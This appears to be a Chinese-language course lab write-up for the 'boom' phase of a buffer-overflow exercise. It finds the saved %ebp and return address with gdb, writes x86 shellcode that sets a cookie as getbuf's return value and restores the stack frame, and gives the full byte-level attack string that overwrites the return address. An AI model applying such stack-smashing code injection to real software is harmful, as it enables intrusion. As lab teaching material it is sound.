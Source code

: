 ## Boom Phase - 修改返回值，恢复栈帧

根据栈帧的建立与恢复过程，此次实验需要恢复的元素有 2 个: getbuf 栈帧底部保存的 旧%ebp值(即 test 栈底地址) 与 返回地址(即 test 中位于 call <getbuf> 下一条指令的地址).
可以通过攻击指令恢复这 2 个元素

### 获取旧 %ebp 值

键入 make debug, 利用 gdb 进行动态分析:

在 getbuf 处设置断点，运行程序至 getbuf 处.
键入 x/2wx $ebp, 输出 -
0x556831b0 <_reserved+1036720>: 0x556831e0  0x08048e81.
可以得到 旧%ebp值为 0x556831e0, 程序正常运行返回地址为 0x08048e81.

### 编写 boom 攻击指令

为完成此阶段要求:

-   需将 cookie 值送入 %eax, 作为 getbuf 函数的返回值
-   恢复上述提到的 2 个元素(旧%ebp值, 正常返回地址)

```asm
; 设置返回值为 cookie
movl $0x6898ac90, %eax
; 恢复旧%ebp值
pushl $0x556831e0
popl %ebp
; 设置正常的返回地址
pushl $0x08048e81
; 返回至 test 函数
ret
```

### 生成 boom 攻击字符串

编写好 attack.s 后, 键入 $ make asm, 获得对应机器字节码:

```asm
b8 90 ac 98 68          mov    $0x6898ac90,%eax
68 e0 31 68 55          push   $0x556831e0
5d                      pop    %ebp
68 81 8e 04 08          push   $0x8048e81
c3                      ret
```

b8 90 ac 98 68 68 e0 31 68 55 5d 68 81 8e 04 08 c3

同样地, 与 bang 阶段相同，将 getbuf 栈帧的返回地址覆写为 88 31 68 55.

### boom 最终攻击序列

故，可得攻击序列为:

```asm
b8 90 ac 98
68 68 e0 31
68 55 5d 68
81 8e 04 08
c3 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
88 31 68 55
```